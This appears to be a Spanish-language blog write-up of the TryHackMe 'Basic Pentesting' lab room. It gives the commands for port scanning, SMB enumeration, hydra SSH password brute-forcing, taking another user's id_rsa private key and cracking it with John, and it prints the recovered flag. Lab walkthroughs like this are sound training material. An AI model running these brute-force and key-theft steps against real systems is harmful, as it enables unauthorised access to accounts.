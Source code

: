 ```yaml
---
layout: single
title: Basic Pentesting - TryHackMe
excerpt: " “Basic Pentesting” is a beginner level pentesting room in TryHackMe which covers very basic pentesting techniques. "
date: 2022-08-22
classes: wide
header:
  teaser: /blog/assets/images/thm-writeup-basicpentesting/basic_pentesting.png
  teaser_home_page: true
  icon: /blog/assets/images/tryhackme.webp
categories:
  - tryhackme
tags:  
  - smb
  - hydra
  - ssh
---
```


“Basic Pentesting” is a beginner level pentesting room in TryHackMe which covers very basic pentesting techniques.

# Summary
- IP: 10.10.116.216
- Ports: 22,80,139,445,8009,8080
- OS: Linux (Ubuntu)
- Services & Applications:
	-  22 -> OpenSSH 7.2p2 Ubuntu 4ubuntu2.4
	-  80 -> Apache httpd 2.4.18
	-  139 -> netbios-ssn Samba smbd 3.X - 4.X
	-  445  ->  netbios-ssn Samba smbd 4.3.11-Ubuntu
	-  8009 -> Apache Jserv (Protocol v1.3)
	-  8080 -> Apache Tomcat 9.0.7

# Recon
- Reconocimiento básico de puertos:

```bash
$sudo nmap -p- -sS --open --min-rate 5000 -vvv -n -Pn 10.10.116.216 -oG allPorts
``` 

- Reconocimiento profundo de puertos encontrados:

``` bash
$sudo nmap -p22,80,139,445,8009,8080 -sCV 10.10.116.216 -oN targeted
``` 

- Análisis de directorios con gobuster:

``` bash
$gobuster dir -u http://10.10.116.216:80 -w /home/dante/SecLists/Discovery/Web-Content/common.txt
``` 

- Encontramos el directorio /development, el cual contiene dos ficheros:

```
dev.txt
j.txt
```

- Realizamos un escaneo de log del protocolo smb:
``` bash
$enum4linux.pl -a 10.10.116.216 | tee enum4linux.log
``` 

- Encontramos los siguientes usuarios:

```
\kay
\jan
```

- Con los usuarios encontrados, aplicamos fuerza bruta con hydra para intentar encontrar la contraseña para entrar vía ssh:
``` bash
$hydra -l jan -P /home/dante/SecLists/Passwords/Leaked-Databases/rockyou.txt ssh://10.10.116.216
``` 

- Accedemos como usuario jan:
``` bash
$ssh jan@10.10.116.216 
```

- Buscamos información que nos sirva para escalar privilegios o pivotear usuarios; encontramos un archivo ./kay/.ssh/id_rsa el cual contiene la private key ssh del usuario kay, la desciframos con John:
	- Primero copiamos el contenido exacto del archivo id_rsa y lo guardamos en un archivo pass
	- Ejecutamos  ```$python3 ssh2john.py pass > pass.txt```
	- Luego crackeamos con John: 
	``` bash
		$john -w:/home/dante/SecLists/Passwords/Leaked-Databases/rockyou.txt pass.txt
	```

- Con la contraseña obtenida, accedemos via SSH con la private key anteriormente almacenada como pass:
``` bash
$ssh -i passs kay@10.10.116.216
```

- Encontramos la flag de usuario:
heresareallystrongpasswordthatfollowsthepasswordpolicy$$
